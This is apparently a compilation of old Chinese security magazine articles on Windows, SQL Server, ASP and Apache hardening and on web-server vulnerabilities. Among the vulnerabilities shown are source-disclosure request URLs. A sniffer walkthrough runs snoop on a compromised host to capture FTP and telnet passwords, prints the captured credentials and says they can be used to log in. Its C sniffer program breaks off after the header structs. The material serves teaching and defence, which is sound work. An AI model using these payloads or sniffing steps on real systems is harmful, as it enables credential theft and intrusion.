说明：如果 ArpCacheLife 大于或等于 ArpCacheMinReferencedLife，则引用或未引用的 ARP 缓存项在 ArpCacheLife 秒后到期。每次将出站数据包发送到项的 IP 地址时，就会引用 ARP 缓存中的项。

### 11. 禁止死网关监测技术
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
EnableDeadGWDetect REG_DWORD 0x0（默认值为 0x1）
```
说明：如果你设置了多个网关，那么你的机器在处理多个连接有困难时，就会自动改用备份网关。建议禁止网关监测。

### 12. 不支持路由功能
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
IPEnableRouter REG_DWORD 0x0（默认值为 0x0）
```
说明：把值设置为 0x1 可以使 Windows 2000 具备路由功能，由此带来不必要的问题。

### 13. 做 NAT 时放大转换的对外端口最大值
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
MaxUserPort REG_DWORD 5000—65534（十进制）（默认值 5000）
```
说明：该参数控制应用程序从系统请求可用端口时的最大端口数。使用 NAT 时，建议把值放大点。

### 14. 修改 MAC 地址
```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class
```
找到右窗口的说明为“网卡”的目录，比如 `{4D36E972-E325-11CE-BFC1-08002BE10318}` 展开之，在分支中找到 “DriverDesc” 键值为你网卡的说明。然后在右窗口新建一字符串值，名字为 “Networkaddress”，内容为你想要的 MAC 值，如 “004040404040”，然后重启计算机。

修改注册表来解决一些问题是一个优秀的网络管理员具备的起码素质！

## 九、SQL 服务器的设置

微软的 SQL Server 是一种广泛使用的数据库，但其安全性常被忽视。多数管理员认为只要操作系统安全了，应用也就安全了。数据库系统中存在的安全漏洞和不当配置通常会造成严重后果。SQL Server 属于“端口”型数据库，任何人都能够用分析工具试图连接，从而绕过操作系统的安全机制。

首先给 SA 一个复杂的口令。由于部分人员只注重编写 SQL 语句本身，对数据库管理不熟悉，很有可能造成 SA 口令为空。这对数据库安全是一个严重威胁。

由于 SQL 的强大功能，给黑客的入侵带来了不少方便，应注意限制以下 OLE 存储过程：

- Sp_OACreate
- Sp_OADestroy
- Sp_OAGetErrorInfo
- Sp_OAGetProperty
- Sp_OAMethod
- Sp_OASetProperty
- Sp_OAStop

以及访问注册表的存储过程：

- Xp_regaddmultistring
- Xp_regdeletekey
- Xp_regdeletevalue
- Xp_regenumvalues

Xp_regread
Xp_regremovemultistring
Xp_regwrite

这些都是对安全有威胁的过程，注册表存储过程甚至能够读出操作系统管理员的密码。虽然删除它们可能会造成管理器中的某些特征不能使用，但是，为了安全，还是删除吧！

## 十、ASP 编程安全

安全不仅是网管的事，编程人员也必须在某些安全细节上注意，养成良好的安全习惯，否则会给黑客以可乘之机。目前，大多数网站上的 ASP 程序有这样那样的安全漏洞，如果写程序的时候注意一点的话，还是可以避免的。

- 1. **涉及用户名与口令的程序最好封装在服务器端**，尽量少地在 ASP 文件里出现，涉及到与数据库连接的用户名与口令应给予最小的权限。
  说明：用户名与口令往往是黑客们最感兴趣的东西，如果被通过某种方式看到源代码，后果是严重的。因此要尽量减少它们在 ASP 文件中的出现次数。出现次数多的用户名与口令可以写在一个位置比较隐蔽的包含文件中。如果涉及到与数据库连接，理想状态下只给它以执行存储过程的权限，千万不要直接给予该用户以修改、插入、删除记录的权限。
- 2. **需要经过验证的 ASP 页面，可跟踪上一个页面的文件名**，只有从上一页转进来的会话才能读取这个页面。
  说明：现在需要经过验证的 ASP 程序多是在页面头部加一个判断语句，但这还不够，有可能被黑客绕过验证直接进入，因此有必要跟踪上一个页面。
- 3. **当 ASP 主页正在制作并没有进行最后调试完成以前，可能被某些搜索引擎追加为搜索对象**。如果这时候有人利用搜索引擎对这些网页进行查找，会得到有关文件的定位，并能在浏览器中查看到数据库地点和结构的细节，揭示完整的源代码。
  解决方案：程序员应该在网页发布前对其进行彻底的调试；安全专家需要固定 ASP 包含文件以使外部的用户不能看它们。首先对 .inc 文件内容进行加密，其次也可以使用 .asp 文件代替 .inc 文件，使用户无法从浏览器直接观看文件的源代码。.inc 文件的文件名不要使用系统默认的或者有特殊含义容易被用户猜测到的，尽量使用无规则的英文字母。
- 4. **有些编辑 ASP 程序的工具会创建备份文件**。当创建或者修改一个 ASP 文件时，编辑器自动创建一个备份文件。比如 UltraEdit 就会备份一个 .bak 文件，如你创建或者修改了 some.asp，编辑器自动生成一个叫 some.asp.bak 的文件。如果你没有删除这个 bak 文件，攻击者可以直接下载 some.asp.bak 文件，这样 some.asp 的源程序就会被下载。
- 5. **处理输入框时应屏蔽特殊语句**。在处理类似留言板、BBS 等输入框的 ASP 程序中，最好屏蔽掉 HTML、JavaScript、VBScript 语句。如无特殊要求，可以限定只允许输入字母与数字，屏蔽掉特殊字符；同时对输入字符的长度进行限制；不但在客户端进行输入合法性检查，同时要在服务器端程序中进行类似检查。
  说明：输入框是黑客利用的一个目标，他们可以通过输入脚本语言等对用户客户端造成损坏；如果该输入框涉及到数据查询，他们会利用特殊查询输入得到更多的数据库数据，甚至是表的全部，因此必须对输入框进行过滤。如果为了提高效率，仅在客户端进行输入合法性检查，仍有可能被绕过，因此必须在服务器端再做一次检查。
- 6. **防止 ACCESS 后台数据库被下载**。在用 ACCESS 做后台数据库时，如果有人通过各种方法知道或者猜到了服务器的 ACCESS 数据库的路径和数据库名称，那么他能够下载这个 ACCESS 数据库文件，这是非常危险的。

  **解决方法：**
  1. 为你的数据库文件名称起个复杂的非常规的名字，并把它放在深层目录下。所谓“非常规”，打个比方：比如有个数据库要保存的是有关书籍的信息，不要把它起个“book.mdb”的名字，起个怪怪的名称，比如 d34ksfslf.mdb。再把它放在如 `/kdslf/i44/studi/` 的几层目录下，这样黑客要想通过猜的方式得到你的 ACCESS 数据库文件就难上加难了。
  2. 不要把数据库名写在程序中。假如万一给人拿到了源程序，你的 ACCESS 数据库的名字就一览无余。
  3. 使用 ACCESS 来为数据库文件编码及加密。首先在选取“工具 -> 安全 -> 加密/解密数据库”，选取数据库（如：employer.mdb），然后直接确定，接着会出现“数据库加密后另存为”的窗口，存为：employer1.mdb。
  要注意的是：以上的动作并不是对数据库设置密码，而只是对数据库文件加以编码，目的是为了防止他人使用别的工具来查看数据库文件的内容。接下来我们为数据库加密，首先打开经过编码了的 employer1.mdb，在打开时，选择“独占”方式。然后选取功能表的“工具 -> 安全 -> 设置数据库密码”，接着输入密码即可。这样即使他人得到了 employer1.mdb 文件，没有密码他是无法看到其内容的。

现在设置已经基本完成，可以接入网络了吧！

哎，慢来！先找个流光、SSS 扫描一下吧！也许有人认为这些是黑客软件，都是邪恶的，我要说：错！为了安全，扫描和入侵测试是必须的！要声明的是此时的服务器已经接入内部网络。扫描完毕后，最后一项工作就是打补丁！虽然在文章的开头已经说过，但是补丁是在最后打的，这一点请牢记！

到此，我们的服务器设置已经基本完成，剩下的就是维护和管理了。虽然上面的各项安全设置都是很苛刻的，但是安全上无论怎样小心都是不过分的！

### 正确配置和维护 Apache Web Server 安全性
文/Phoenix

在 Internet 时代，主页已成为树立公司形象和展示自我天地的一个重要手段，配置一台强大且安全的 Web Server 就显得尤其重要。在众多的 Web Server 产品中，Apache 是应用最为广泛的一个产品，同时也是一个设计上非常安全的程序。但是，同其他应用程序一样，Apache 也存在安全缺陷。本文将详细介绍如何正确配置和维护 Apache Web Server 的安全性。

### 一、Apache 服务器

Apache 服务器源自美国国家超级技术计算应用中心（NCSA）的 Web 服务器项目，目前已在互联网中占据了领导地位。Apache 服务器经过精心配置之后，能适应高负荷、大吞吐量的互联网工作。快速、可靠、通过简单的 API 扩展，Perl/Python 解释器可被编译到服务器中，且完全免费，完全源代码开放。如果你需要创建一个每天有数百万人访问的 Web 服务器，Apache 是最佳选择。

### 二、Apache 服务器的主要安全缺陷

Apache 服务器的安全缺陷主要是使用 HTTP 协议进行的拒绝服务攻击（Denial of Service）、缓冲区溢出攻击以及被攻击者获得 root 权限等。合理的网络配置能够保护 Apache 服务器免遭多种攻击。主要的安全缺陷如下：

- 1. **使用 HTTP 协议进行的拒绝服务攻击（Denial of Service）**
  攻击者会通过某些手段使服务器拒绝对 HTTP 应答，这样会使 Apache 对系统资源（CPU 时间和内存）的需求剧增，最终造成 Apache 系统变慢甚至完全瘫痪。
- 2. **缓冲区溢出**
  攻击者利用程序编写中的一些缺陷，使程序偏离正常的流程。程序使用静态分配的内存保存请求数据，攻击者就可以发送一个超长请求使缓冲区溢出。比如一些 Perl 编写的处理用户请求的网关脚本，一旦缓冲区溢出，攻击者可以执行其恶意指令或者使系统宕机。
- 3. **被攻击者获得 root 权限**
  该安全缺陷主要是因为 Apache 服务器一般以 root 权限运行（父进程），攻击者会通过它获得 root 权限，进而控制整个 Apache 系统。
- 4. **恶意的“拒绝服务”(DoS) 攻击**
  这是 6 月 17 日发现的漏洞，主要存在于 Apache 的 chunk encoding 中，这是一个 HTTP 协议定义的用于接受 Web 用户所提交数据的功能。利用黑客程序可以对运行在 FreeBSD 4.5、OpenBSD 3.0/3.1、NetBSD 1.5.2 平台上的 Apache 服务器进行有效的攻击。

因此，使用最新安全版本对于加强 Apache Web 服务器的安全是至关重要的。请广大管理员去 http://www.apache.org/dist/httpd/ 下载补丁程序。

### 三、正确维护和配置 Apache 服务器

虽然开发者非常注重安全性，但由于 Apache 具有庞大的项目规模，难免存在隐患。应注意如下问题：

#### 1. Apache 服务器配置文件
Apache 主要有三个配置文件，位于 `/usr/local/apache/conf` 目录下：
- `httpd.conf` ——→ 主配置文件
- `srm.conf` ——→ 添加资源文件
- `access.conf` ——→ 设置文件的访问权限
注：具体配置可以参考 http://httpd.apache.org/docs/mod/core.html。

#### 2. Apache 服务器的日志文件
我们可以使用日志格式指令来控制日志信息。使用 `LogFormat "%a %l"` 指令，可以把发出 HTTP 请求浏览器的 IP 地址和主机名记录到日志。出于安全考虑，至少应知道哪些是验证失败的用户，在 `httpd.conf` 中加入 `LogFormat "%401u"` 指令可以实现。另外，错误日志文件（Error Log）包括服务器启动、停止及 CGI 执行失败等信息，对管理员非常重要。

#### 3. Apache 服务器的目录安全认证
Apache 允许使用 `.htaccess` 做目录安全保护，欲读取该目录需要键入正确的用户账号与密码。
在保护的目录里放置一个文件，文件名为 `.htaccess`：

```text
AuthName "会员专区"
AuthType "Basic"
AuthUserFile "/var/tmp/xxx.pw"  ——→ 把 password 放在网站外
require valid-user
```

到 `apache/bin` 目录，建 password 档：
```bash
% ./htpasswd -c /var/tmp/xxx.pw username1  ——→ 第一次建档要用参数 "-c"
% ./htpasswd /var/tmp/xxx.pw username2
```

注：也可以在 `httpd.conf` 中加入：
```text
options indexes followsymlinks
allowoverride authconfig
order allow,deny
allow from all
```

#### 4. Apache 服务器访问控制
在 `access.conf` 文件中，可以使用指令控制访问。应把 `deny from all` 设为初始化指令，再使用 `allow from` 打开权限。

```text
<directory /usr/local/http/docs/private>
<limit>
order deny,allow
deny from all
allow from safechina.net
</limit>
</directory>
```

#### 5. Apache 服务器的密码保护问题
使用 `.htaccess` 文件把某个目录的访问权限赋予某个用户。管理员需要在 `httpd.conf` 或者 `srm.conf` 文件中使用 `AccessFileName` 指令打开目录访问控制。

```text
AuthName PrivateFiles
AuthType Basic
AuthUserFile /path/to/httpd/users
require Phoenix

# htpasswd -c /path/to/httpd/users Phoenix
```

或者：
```text
AuthType Basic
AuthUserFile /etc/.usrpasswd
require valid-user
```
用 `# htpasswd -c /etc/.usrpasswd user1` 创建外部用户名和口令。

### 四、设置 Apache 服务器的 Web 和文件服务器

我们将设置 `/home/ftp/pub` 目录为文件存放区域，通过防火墙反向代理技术进行访问。

- **1. Apache 服务器的设置**
  主目录为 `/home/httpd/html`，域名为 `Phoenix.your.com`（别名为 `www.your.com`）。在 `srm.conf` 加一行别名定义：
  `Alias /pub /home/ftp/pub`
  更改默认应用程序类型：
  `DefaultType application/octet-stream`
  在 `access.conf` 中增加：
  ```text
  Options Indexes
  AllowOverride AuthConfig
  order allow,deny
  allow from all
  ```
  在 `/home/ftp/pub` 目录下放入 `.htaccess`：
  `AuthName "Branch Office Public Software Download Area"`

- **2. 在防火墙上配置反向代理技术**
  在 `httpd.conf` 中加入：
  `NameVirtualHost xxx.xxx.xxx.xxx`（防火墙外部永久 IP）
  
  ```text
  servername www.your.com
  errorlog /var/log/httpd/error.log
  transferlog /var/log/httpd/access.log
  rewriteengine on
  proxyrequests off
  usecanonicalname off
  rewriterule ^/(.*)$ http://xxx.xxx.xx.x/$1 [P,L]
  
  # Apache 服务器的 IP 地址
  servername http://download.your.com/pub/
  errorlog /var/log/httpd/download/error.log
  transferlog /var/log/httpd/download/access.log
  
  rewriteengine on
  proxyrequests off
  usecanonicalname off
  rewriterule ^/(.*)$ http://xxx.xxx.xx.x/$1 [P,L]
  ```

设置防火墙 DNS 让 `download.your.com` 和 `www.your.com` 指向外部地址。注：需建立 `/var/log/httpd/download/` 目录。建议设置防火墙主机上 `index.html` 属性为 750 以阻止直接访问。

---

## WebTrends Enterprise Suite 分析 —— Web系统日志的强大工具
文／SQL

WebTrends Enterprise Suite 是面向电子商务及大型站点的软件包，具有服务器日志分析、Proxy 分析、链接分析、IP 设备监视等功能。

- **主页访问率分析**：自动检测 Web 服务器和日志文件种类，输出报告。识别常用日志格式，用图表表示用户 Profile，为市场活动提供资料。
- **Intranet 管理**：Proxy 服务器日志分析 Intranet 使用趋势。支持 Oracle、Microsoft、Netscape、Novell、BorderWare 等。
- **内容管理**：使用 Site Manager 直观显示站点构成，报告访问速度和完整性，发现连接阻碍。
- **流媒体分析**：分析音响、录像、动画等收视率；支持 Real Server、Windows Media Server。
- **支持 Web 服务器群**：通过 Cluster Trends 技术，支持负载平衡的服务器集群，将分割的用户会话精确归纳分析。
- **与大型数据库连用**：通过 DBTrends 技术连接 Oracle、SQL Server、Sybase、Informix，反映访问者的个人信息（住址、公司、电话等）。
- **运行管理**：IP 设备监视器监视所有 IP 设备和 NT 服务，故障时通过邮件或报警通知，并自动恢复。

制作一个企业级 Web 站点并非只是找个免费服务器软件那么简单。大型站点的 IIS 日志每天可能达到数百兆甚至 1G 以上，手工分析完全不可行。通过专门的日志分析软件，你可以有效地跟踪、存储和报告来访者信息，为不同用户定制在线服务，从而真正发挥日志数据的价值。

信息系统主管们渴望了解用户访问了哪些页面、在这些页面上停留了多长时间以及他们点击了页面上的哪一处，并希望收集页面上广告的点击情况。站点日志分析工具通过整理Web服务器上的日志文件来告诉你在你的网站上发生过什么，并且所言一般较为可靠。一个好的Web站点管理工具，或者说得更准确些，一个日志内容分析器应该能够在访问者发现问题之前将Web站点上的故障排除掉。通过减少链接断开故障和用户的下载时间，你可以使访问者顺畅无阻地尽情浏览你的Web站点，而这也许会给你带来丰厚的回报。

这些工具支持的服务器和代理包括：
- JavaWebServer
- ZBServer
- Gosite-SSL
- IBM
- Alibaba
- Web Commander
- OmniHTTPd
- Best
- NCSA Proxy
- Netscape Proxy
- Novell BorderWare
- Microsoft Proxy
- Microsoft Winsock
- Oracle proxy
- Squid
- Net Appliance等。

启动WebTrends Enterprise Suite后，首先选择建立一个新的Web日志的配置文件（图1）。

选择目录找到要分析的日志文件（图3）。当然有时候我们想分析的日志可能不是一天的，而是全部LOG目录里的日志或是一段时间的日志文件，WebTrends Enterprise Suite同样是支持分析多天的日志文件。

首先程序会问你要分析的日志文件是否在本地的系统上即是同一物理主机上，我要分析的日志就保存在本地，所以就选择第一项了（图2），WebTrends Enterprise Suite也支持远程分析系统的Web日志。

选择Date Macro按键将LOG日志文件的目录指向系统的IIS默认存放日志文件的目录（图4）。确定以后程序会自动去搜索当前目录下的所有IIS的日志文件，并把它们添加到待分析的日志列表中。

好的，下面我们可以就可以去选择我们要去分析的日志具体文件了。默认情况下程序会自动判断日志文件的类型，WebTrends Enterprise Suite其实不仅仅可以分析IIS的日志文件，它实际支持的文件类型非常多，包括有Apache、Stronghold、NCSA、Netscape Commerce Server、Netscape Communications Server、Netscape FastTrack、Netscape Enterprise、CERN、Microsoft IIS、WebSite、WebSitePro、Purveyor、WebStar、NaviServer、Internet Factory、Oracle、EMWAC、Open-Market、GoServe、Spry、Lotus Domino、Zeus等。

分析日志文件设置好了以后，就可以双击我们设置好的项目文件，你可以直接选择START开始分析，也可以对即将产生的报表文件再做一些配置（图5）。

默认情况下，WebTrends Enterprise Suite报表是用HTML文件的形式来保存的，你也可以实时地或根据需要输出5种格式（HTML、Microsoft Word、Microsoft Excel、文本、CSV）的访问情况分析报告，备有70种以上的图表，可使用组合了上述项目的32种模板。制作好的报告可保存在局域网硬盘中，或FTP上传，或用MAPI及SMTP发送电子邮件。你可以对报告中的详细项目做一个配置，选择自己需要查看的项目（图6）。

一切设置好以后我们就可以让 WebTrends Enterprise Suite 自动地去帮我们来分析日志文件。程序每分钟可处理 10~30MB 的日志，分析超过 10GB（4000 万点击）的日志。

WebTrends Enterprise Suite 的分析后出来的报表非常漂亮，用了很多图表来说明问题，我非常的喜欢，里面说明和分析的项目非常非常多，只有使用者在自己使用过程中才能慢慢体会。

WebTrends Enterprise Suite 的最大优点便是其易用性。从安装软件到生成报告，该软件使得日志分析工作变得非常简单。WebTrends Enterprise Suite 是功能完备精巧的日志分析软件，很少因实际环境而产生问题。在它生成的报告中包含有诸如页面 HTML 语法错误以及一般的站点改进意见等大量极具价值的信息。它还可以依你的爱好而生成不同风格的报告，并支持对后台数据库信息的访问，这些都进一步丰富了它的功能。

文章里我只是介绍了程序第一部分的功能，即如何去分析一个 IIS 的日志文件并得出报告。其实大家在使用中可以发现这个程序的功能实在是强大，还有很多非常优秀的功能等待大家的发掘使用。

### Web 服务篇

#### 常见漏洞介绍

本文的目的就是向大家介绍 Web 服务器的常见漏洞，相信看过这篇文章自己也能试着发现一些 Web 服务器的漏洞了。不过需要记住的是，不要为了寻找漏洞而寻找漏洞。另外，即便你找到了漏洞，是否能够利用还是另外一回事。

Web 服务器存在的主要漏洞包括物理路径泄露、CGI 源代码泄露、目录遍历、执行任意命令、缓冲区溢出、拒绝服务、条件竞争和跨站脚本执行漏洞等等。无论是什么漏洞，都体现着安全是一个整体的真理，考虑 Web 服务器的安全性，必须要考虑到与之相配合的操作系统。

下面我就开始一一介绍这些漏洞，为了更易于理解，我在介绍每种漏洞时都会附上几个文章链接，你可以从中得到存在相同漏洞的 Web 服务器的更详细信息。

#### 【物理路径泄露】

物理路径泄露一般是由于 Web 服务器处理用户请求出错导致的，如通过提交一个超长的请求，或者是某个精心构造的特殊请求，抑或是请求一个 Web 服务器上不存在的文件。这些请求都有一个共同特点，那就是被请求的文件肯定属于 CGI 脚本，而不是静态 HTML 页面。

还有一种情况，就是 Web 服务器的某些显示环境变量的程序错误地输出了 Web 服务器的物理路径，这应该算是设计上的问题。

#### 【CGI 源代码泄露】

CGI 源代码泄露的原因比较多，例如大小写、编码解码、附加特殊字符或精心构造的特殊请求等都可能导致 CGI 源代码泄露。

下面是一些示例请求：
- http://www.host.com/index.jsP
- http://www.host.com/index%2ejsp
- http://www.host.com/index.js%50
- http://www.host.com/index.js%70
- http://www.host.com/index.jsp%00
- http://www.host.com/index.jsp%20
- http://www.host.com/index.jsp%2e
- http://www.host.com/index.jsp%2f
- http://www.host.com/index.jsp%3f
- http://www.host.com/index.jsp%5c
- http://www.host.com/index.jsp%81
- http://www.host.com/./index.jsp
- http://www.host.com/index.asp:$DATA
- http://www.host.com/index.asp+.htr
- http://www.host.com/index.asp.................htr

这些请求都可能导致 CGI 源代码泄露。以下是一些相关文章链接：
- http://security.nsfocus.com/showQuery.asp?bugID=519
- http://security.nsfocus.com/showQuery.asp?bugID=754
- http://security.nsfocus.com/showQuery.asp?bugID=1130
- http://security.nsfocus.com/showQuery.asp?bugID=1181
- http://security.nsfocus.com/showQuery.asp?bugID=1334
- http://security.nsfocus.com/showQuery.asp?bugID=621

#### 【目录遍历】

目录遍历对于 Web 服务器来说并不多见，通过对任意目录附加“../”，或者是在有特殊意义的目录附加“../”，或者是附加“../”的一些变形，如“..\”或“.../”甚至其编码，都可能导致目录遍历前一种情况并不多见，但是后面的几种情况就常见得多，去年非常流行的 IIS 二次解码漏洞和 UNICODE 解码漏洞都可以看作是变形后的编码。

#### 【执行任意命令】

执行任意命令即执行任意操作系统命令，主要包括两种情况。一是通过遍历目录，如前面提到的二次解码和 UNICODE 解码漏洞，来执行系统命令；另外一种就是 Web 服务器把用户提交的请求作为 SSI 指令解析，因此导致执行任意命令。

#### 【缓冲区溢出】

缓冲区溢出漏洞想必大家都很熟悉，无非是 Web 服务器对用户提交的超长请求没有进行合适的处理，这种请求可能包括超长 URL、超长 HTTP Header 域或者是其他超长的数据。这种漏洞可能导致执行任意命令或者是拒绝服务，这一般取决于构造的数据。下面是一些相关文章链接：
- http://security.nsfocus.com/showQuery.asp?bugID=1749
- http://security.nsfocus.com/showQuery.asp?bugID=1417

#### 【拒绝服务】

拒绝服务产生的原因多种多样，主要包括超长 URL，特殊目录，超长 HTTP Header 域，畸形 HTTP Header 域或者是 DoS 设备文件等。由于 Web 服务器在处理这些特殊请求时不知所措或者是处理方式不当，因此出错终止或挂起。

#### 【条件竞争】

这里的条件竞争主要针对一些管理服务器而言，这类服务器一般是以 system 或 root 身份运行的。当它们需要使用一些临时文件，而在对这些文件进行写操作之前，却没有对文件的属性进行检查，一般可能导致重要系统文件被重写，甚至获得系统控制权。

#### 【跨站脚本执行漏洞】

跨站脚本漏洞已经介绍得够多，这里就不赘述了，有问题可以参考我以前写过的一篇文章 http://magazine.nsfocus.com/detail.asp?id=1217

基本就是这些内容，有问题给我写信。

### Sniffer 原理及攻防技术实例

文 / isno

现在人们谈到黑客攻击，一般所指的都是以主动方式进行的，例如利用漏洞或者猜测系统密码的方式对系统进行攻击。但是其实还有一类危害非常大的被动攻击方式往往为大家所忽视，那就是利用 Sniffer 进行嗅探攻击。

Sniffer，中文可以翻译为嗅探器，是一种威胁性极大的被动攻击工具。使用这种工具，可以监视网络的状态、数据流动情况以及网络上传输的信息。当信息以明文的形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输的源源不断的信息截获，黑客们常常用它来截获用户的口令。据说某个骨干网络的路由器曾经被黑客攻入，并嗅探到大量的用户口令。本文将详细介绍 Sniffer 的原理和应用。

在一般情况下，网络上所有的机器都可以“听”到通过的流量，但对不属于自己的数据包则不予响应（换句话说，工作站 A 不会捕获属于工作站 B 的数据，而是简单地忽略这些数据）。如果某个工作站的网络接口处于混杂模式（关于混杂模式的概念会在后面解释），那么它就可以捕获网络上所有的数据包和帧。

### 二、Sniffer 原理

#### 1. 网络技术与设备简介

在讲述 Sniffer 的概念之前，首先需要讲述局域网设备的一些基本概念。

数据在网络上是以很小的称为帧（Frame）的单位传输的，帧由几部分组成，不同的部分执行不同的功能。帧通过特定的称为网络驱动程序的软件进行成型，然后通过网卡发送到网上，通过网线到达它们的目的机器，在目的机器的一端执行相反的过程。接收端机器的以太网卡捕获到这些帧，并告诉操作系统帧已到达，然后对其进行存储。就是在这个传输和接收的过程中，嗅探器会带来安全方面的问题。

每一个在局域网（LAN）上的工作站都有其硬件地址，这些地址唯一地表示了网络上的机器（这一点与 Internet 地址系统比较相似）。当用户发送一个数据包时，这些数据包就会发送到 LAN 上所有可用的机器。

#### 2. 网络监听原理

Sniffer 程序是一种利用以太网的特性把网络适配卡（NIC，一般为以太网卡）置为杂乱（Promiscuous）模式状态的工具，一旦网卡设置为这种模式，它就能接收传输在网络上的每一个信息包。

普通的情况下，网卡只接收和自己的地址有关的信息包，即传输到本地主机的信息包。要使 Sniffer 能接收并处理这种方式的信息，系统需要支持 BPF，Linux 下需要支持 Socket-Packet。但一般情况下，网络硬件和 TCP/IP 堆栈不支持接收或者发送与本地计算机无关的数据包，所以，为了绕过标准的 TCP/IP 堆栈，网卡就必须设置为我们刚开始讲的混杂模式。一般情况下，要激活这种方式，内核必须支持这种伪设备 BPF Filter，而且需要 root 权限来运行这种程序，所以 Sniffer 需要 root 身份安装，如果只是以本地用户的身份进入了系统，那么不可能嗅探到 root 的密码，因为不能运行 Sniffer。

基于 Sniffer 这样的模式，可以分析各种信息包并描述出网络的结构和使用的机器，由于它接收任何一个在同一网段上传输的数据包，所以也就存在很大的安全隐患，存在着捕获密码、各种信息、秘密文档等一些没有加密的信息的可能性。这成为黑客们常用的扩大成果的方法，用来夺取其他主机的控制权。

#### 3．Sniffer 的分类

Sniffer 分为软件和硬件两种，软件的 Sniffer 有 NetXray、Packetboy、Net monitor 等，其优点是物美价廉，易于学习使用，同时也易于交流；缺点是无法抓取网络上所有的传输，某些情况下也就无法真正了解网络的故障和运行情况。硬件的 Sniffer 通常称为协议分析仪，一般都是商业性的，价格也比较贵。

实际上本文中所讲的 Sniffer 指的是软件。它把包抓取下来，然后打开并查看其中的内容，可以得到密码等。Sniffer 只能抓取一个物理网段内的包，就是说，你和监听的目标中间不能有路由或其他屏蔽广播包的设备，这一点很重要。所以，对一般拨号上网的用户来说，是不可能利用 Sniffer 来窃听到其他人的通信内容的。

#### 4．网络监听的目的

当一个黑客成功地攻陷了一台主机，并拿到了 root 权限，而且还想利用这台主机去攻击同一网段上的其他主机时，他就会在这台主机上安装 Sniffer 软件，对以太网设备上传送的数据包进行侦听，从而发现感兴趣的包。如果发现符合条件的包，就把它存到一个 Log 文件中去。通常设置的这些条件是包含关键字“username”或“password”的包，这样的包里面通常有黑客感兴趣的密码之类的东西。一旦黑客截获得了某台主机的密码，他就会立刻进入这台主机。

如果 Sniffer 运行在路由器上或有路由功能的主机上，就能对大量的数据进行监控，因为所有进出网络的数据包都要经过路由器。

Sniffer 属于第二层次的攻击。就是说，只有在攻击者已经进入了目标系统的情况下，才能使用 Sniffer 这种攻击手段，以便得到更多的信息。

Sniffer 除了能得到口令或用户名外，还能得到更多的其他信息，比如一个重要的信息，在网上传送的金融信息等等。Sniffer 几乎能得到任何在以太网上传送的数据包。

Sniffer 是一种比较复杂的攻击手段，一般只有黑客老手才有能力使用它，而对于一个网络新手来说，即使在一台主机上成功地编译并运行了 Sniffer，一般也不会得到什么有用的信息，因为通常网络上的信息流量是相当大的，如果不加选择地接收所有的包，然后从中找到所需要的信息非常困难；而且，如果长时间进行监听，还有可能把放置 Sniffer 的机器的硬盘撑爆。

#### 5．一个简单的 Sniffer 程序

下面是一个非常简单的 C 程序，它可以完成一般的监听功能，`/* */` 中的内容是本文的注解。

```c
/* 下面是包含进行调用系统和网络函数的头文件 */
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

/* 下面是 IP 和 TCP 包头结构 */
struct ip {
    unsigned int ip_length:4;   /* 定义IP头的长度 */
    unsigned int ip_version:4;  /* IP版本 */
    unsigned char ip_tos;       /* 服务类型 */
    unsigned short ip_total_length; /* IP数据包的总长度 */
    unsigned short ip_id;       /* 鉴定域 */
    unsigned short ip_flags;    /* IP标志 */
    unsigned char ip_ttl;       /* IP包的存活期 */
    unsigned char ip_protocol;  /* IP上层的协议 */
    unsigned short ip_cksum;    /* IP头校验和 */
    unsigned int ip_source;     /* 源IP地址 */
    unsigned int ip_dest;       /* 目的IP地址 */
};

struct tcp {
    unsigned short tcp_source_port; /* 定义TCP源端口 */
    unsigned short tcp_dest_port;   /* TCP目的端口 */
    unsigned int tcp_seqno;         /* TCP序列号 */
};
```

## Snoop 安装在哪里

```bash
# find / -name snoop -perm
/usr/sbin/snoop
```

因为我们的目的是捕获网络上传输的密码，所以我们要设置 Snoop 的过滤选项来捕获网络上所有的 telnet 和 ftp 包，使用下面的命令：

```bash
# nohup /usr/sbin/snoop -o slog -c 10000 port telnet or port ftp &
```

我们使用 nohup 和 & 来把 Snoop 挂在后台运行，这样，当我们从终端退出的时候，Snoop 仍然可以在后台运行。并且我们使用 -o 把嗅探结果保存在文件 slog 里，使用 -c 选项来设置一共捕获 10000 个包，以免捕获数据量太大而占据硬盘空间。port telnet or ftp 就是过滤选项，它设置只捕获 Telnet 和 FTP 包，因为这两种协议都使用密码验证而且密码不加密。

然后我们就可以退出登录，第二天再次登录上这台主机，可以看到当前目录下有一个 slog 文件，这就是嗅探结果。但是要注意这个文件不是文本文件，不能使用 cat 命令直接查看，必须用 Snoop 的 -i 选项来查看，使用如下命令：

```bash
# /usr/sbin/snoop -i slog | more
```

这里，我们使用 more 来一点一点查看，发现输出中有以下片段：

```text
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
220 202.11.22.68
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
USER bode\r\n
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
331 Password require
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
PASS zhangjm\r\n
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
202.11.22.68 => gj-12-107.bta.net.cn FTP R port=1924
230 User bode logged
gj-12-107.bta.net.cn => 202.11.22.68 FTP C port=1924
```

通过上面的记录我们可以看到，来自 gj-12-107.bta.net.cn 的用户使用 FTP 登录上了 202.11.22.68 主机，它使用的用户名为 bode，密码为 zhangjm。于是我们就可以使用这个用户名和密码来登录上 202.11.22.68 了。

## 四、如何防御 Sniffer 攻击

### 1．怎样发现 Sniffer

